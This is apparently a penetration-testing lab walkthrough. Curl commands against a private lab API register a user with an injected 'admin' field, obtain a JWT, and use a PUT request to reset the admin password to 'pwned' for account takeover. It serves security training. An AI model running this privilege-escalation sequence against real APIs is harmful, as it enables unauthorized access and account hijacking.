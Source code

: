 Let's craft our request by first passing the admin username and dummy password as JSON data via the -d parameter. We'll also specify "json" as the "Content-Type" by specifying a new header with -H.
```bash
kali@kali:~$ curl -d '{"password":"fake","username":"admin"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/login
{ "status": "fail", "message": "Password is not correct for the given username."}
```
The API return message shows that the authentication failed, meaning that the API parameters are correctly formed.
Try creating an attack.
```bash
kali@kali:~$curl -d '{"password":"lab","username":"offsecadmin"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/register

{ "status": "fail", "message": "'email' is a required property"}
```
We could take this opportunity to determine if there's any administrative key we can abuse. Let's add  he admin key, followed by a True value.
```bash
kali@kali:~$curl -d '{"password":"lab","username":"offsec","email":"pwn@offsec.com","admin":"True"}' -H 'Content-Type: application/json' http://192.168.50.16:5002/users/v1/register
{"message": "Successfully registered. Login to receive an auth token.", "status": "success"}
```
Let's try to log in with the credentials we just created by invoking the login API we discovered earlier.
```bash
kali@kali:~$curl -d '{"password":"lab","username":"offsec"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/login
{"auth_token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzEyMDEsImlhdCI6MTY0OTI3MDkwMSwic3ViIjoib2Zmc2VjIn0.MYbSaiBkYpUGOTH-tw6ltzW0jNABCDACR3_FdYLRkew", "message": "Successfully logged in.", "status": "success"}
```
 To obtain tangible proof that we are an administrative user, we should use this token to change the admin user password. We can attempt this by forging a POST request that targets the password API.
 ```bash
kali@kali:~$ curl  \
  'http://192.168.50.16:5002/users/v1/admin/password' \
  -H 'Content-Type: application/json' \
  -H 'Authorization: OAuth eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzEyMDEsImlhdCI6MTY0OTI3MDkwMSwic3ViIjoib2Zmc2VjIn0.MYbSaiBkYpUGOTH-tw6ltzW0jNABCDACR3_FdYLRkew' \
  -d '{"password": "pwned"}'

{
  "detail": "The method is not allowed for the requested URL.",
  "status": 405,
  "title": "Method Not Allowed",
  "type": "about:blank"
}
```
We passed the JWT key inside the Authorization header along with the new password. Sadly, the application states that the method used is incorrect, so we need to try another one. The PUT method (along with PATCH) is often used to replace a value as opposed to creating one via a POST request, so let's try to explicitly define it next:
```bash
kali@kali:~$ curl -X 'PUT' \
  'http://192.168.50.16:5002/users/v1/admin/password' \
  -H 'Content-Type: application/json' \
  -H 'Authorization: OAuth eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzE3OTQsImlhdCI6MTY0OTI3MTQ5NCwic3ViIjoib2Zmc2VjIn0.OeZH1rEcrZ5F0QqLb8IHbJI7f9KaRAkrywoaRUAsgA4' \
  -d '{"password": "pwned"}'
```
This time we received no error message, so we can assume that no error was thrown by the application backend logic.
```bash
kali@kali:~$ curl -d '{"password":"pwned","username":"admin"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/login
```